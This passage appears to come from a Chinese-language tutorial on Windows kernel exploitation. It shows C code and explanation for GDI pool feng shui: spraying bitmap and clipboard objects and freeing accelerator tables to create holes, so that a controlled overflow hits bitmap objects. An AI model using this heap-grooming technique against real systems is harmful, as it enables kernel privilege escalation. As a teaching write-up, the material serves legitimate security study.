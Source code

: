 > 0xbc0 Gh04 Object |0x3c0 free space | 0x80 Gh04 Object

#### Step 5 

```C
   // Allocate Gh05 5000 bitmaps which would be adjacent to the Gh04 objects previously allocated
        for (int k = 0; k < 5000; k++) {
                bmp = CreateBitmap(0x52, 1, 1, 32, NULL); //size  = 3c0
                bitmaps[k] = bmp;
        }
```

5000个bitmap object填充了剩下的0x3c0的free区域。在之后的利用中，bitmap objects是我们控制溢出的目标。

#### Step 6

```C
    // Allocate 1700 clipboard objects of size 0x60 to fill any free memory locations of size 0x60
        for (int k = 0; k < 1700; k++) { //1500
                AllocateClipBoard2(0x30);
        }
```

### Part III

分配1700个大小为0x60的`Clipboard objects`（Uscb），去填充内存中可能存在大小为0x60的chunk，这样一来就可以让我们自己构造的object分配到构造好的内存中。

```C
void AllocateClipBoard(unsigned int size) {
	BYTE *buffer;
	buffer = malloc(size);
	memset(buffer, 0x41, size);
	buffer[size-1] = 0x00;
	const size_t len = size;
	HGLOBAL hMem = GlobalAlloc(GMEM_MOVEABLE, len);
	memcpy(GlobalLock(hMem), buffer, len);
	GlobalUnlock(hMem);
	OpenClipboard(wnd);
	EmptyClipboard();
	SetClipboardData(CF_TEXT, hMem);
	CloseClipboard();
        GlobalFree(hMem);
}
```

如果忽略了`OpenCliboard, CloseClipBboard, EmptyClipboard`只直接用`SetClipboardData/ EmptyCliBoard`，分配的object不会被free掉。

### Part IV

```C
  // delete 2000 of the allocated accelerator tables to make holes at the end of the page in our spray.
        for (int k = 2000; k < 4000; k++) {
                DestroyAcceleratorTable(pAccels[k]);
                DestroyAcceleratorTable(pAccels2[k]);
        }
```
